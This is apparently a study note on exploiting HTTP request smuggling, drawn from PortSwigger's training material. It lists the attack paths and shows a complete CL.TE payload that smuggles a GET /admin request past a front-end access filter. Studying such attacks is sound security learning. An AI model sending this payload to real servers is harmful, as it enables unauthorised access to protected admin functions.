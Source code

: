 
# Exploiting HTTP Request Smuggling
[Portswigger](https://portswigger.net/web-security/request-smuggling/exploiting)

## 📌 Overview

Once a system is vulnerable to **HTTP Request Smuggling (HRS)**, attackers can chain it into multiple **exploitation paths**:

- Bypassing security controls.
    
- Revealing hidden headers.
    
- Abusing authentication mechanisms.
    
- Capturing other users’ requests.
    
- Delivering XSS payloads.
    
- Turning redirects into open redirects.
    
- Performing cache poisoning or cache deception.
    

The impact ranges from **privilege escalation** to **full compromise of user sessions**.

---
## 1️. Bypass Front-End Security Controls

### 💡 Why It Works

- Front-end applies **access control filtering** (e.g., blocks `/admin`).
    
- Back-end **trusts front-end decisions** and doesn’t re-check.
    
- A smuggled request to `/admin` **bypasses the filter**.
    

### 🧪 Payload Example

```http
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```
